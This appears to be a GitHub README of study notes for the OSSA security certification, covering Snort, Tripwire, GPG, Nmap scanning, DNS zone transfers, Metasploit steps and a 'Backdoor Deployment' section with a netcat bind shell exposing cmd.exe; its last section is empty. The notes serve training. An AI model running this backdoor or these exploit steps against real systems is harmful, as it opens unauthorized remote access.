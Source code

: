 # OSSA Summary

## Description
Useful notes and summaries for the Organisational System Security Analyst (OSSA) Certification

## Table of Contents
```toc
```

## Commands
### Network-Based IDS Configuration (Snort)
- Starting snort:
```
snort -c /etc/snort/snort.conf
```

- View all Snort logs:
```
tail -f /var/log/snort/alert
```

- Check the latest Snort log:
	- `<filename>` is the desired log file
```
more /var/log/snort/<filename>
```

### File Integrity Checker and Host-Based IDS (Tripwire)
- Take a snapshot of the system:
```
tripwire --init
```

- Check for any changes in the file system:
```
tripwire --check
```

- View Tripwire report:
```
twprint -m r --twrfile /var/lib/tripwire/report/<filename>
```

- Policies can be edited on the Tripwire Policy text file: `twpol.txt`

- Update the Tripwire database whenever `twpol.txt` was edited:
```
tripwire --update --twrfile /var/lib/tripwire/report/<filename>
```

### Cryptography (GPG)
- Generate a new keypair:
```
gpg --gen-key
```

- Import third-party public keys:
```
gpg --import <filename>
```

- View the imported keys:
```
gpg --fingerprint
```

- Sign the imported key to show that verification of the public keys was done:
```
gpg --sign-key <keyid>
```

- Verify the signature of the file:
```
gpg --verify <public_signature> <filename_to_check> 
```


### DNS Reconnaissance
- Find IP address of server:
```
dig securitystartshere.org
```

**dig options:**
- `mx` - find **mail exchanger** records
- `ns` - find **name server** records 
- `soa` - find **SOA (Start of Authority)** 
	- stores information about the name of the server, zone administrator, current version of zone data file etc.

**Perform a zone transfer of the pod's DNS internal server**
```
dig @10.50.6.1 pod6.com axfr
```

### Port Scanning (Nmap)
- **Ping Sweep:**
```
nmap -sP -n 10.50.6.0/24
```

- **SYN Stealth Scan:**
```
nmap -sS <ip address> 
```

- **Suggested SYN Scan:**
```
nmap -sS -n -Pn -vv -p<target port range> -g<source port range> <target IP address> --max-retries=<value> --min-parallelism<value> --max-rtt-timeout=<value>ms
```

- **ACK Scan:**
```
nmap -sA <ip adress>
```

- **OS Version Detection:**
```
nmap -sV -Pn -n -p80,135-139,445 -vv 10.50.6.3
```

### ARP Spoofing
- Find the internet gateway IP address:
```
route -n
ipconfig (Windows)
```

- View ARP cache:
```
arp -a
```

### Exploitation (Metasploit)
- View list of exploit codes:
```
show exploits
```

- Show options supported for an exploit:
```
show options
```

- Set `RHOST`:
```
set RHOST <ip address>
```

- Set `TARGET` option:
```
set TARGET <option number>
```

- Show all targets support for the exploit
```
show targets
```

- Show all payloads offered for the exploit
```
show payloads
```

- Execute the exploit:
```
exploit
```

### Backdoor Deployment
**Stations:**
- station1 - Windows Workstation
- station2 - Linux OS

**Commands:**
- Run netcat on station1:
```
nc -l -p 48800 -e <windows directory name>\system32\cmd.exe
```

- Run netcat on station2:
```
nc <ip address> 48800
```

### File Hiding with Alternate Data Streams
- Using the `type` command to stream (hide) a file:
```

```

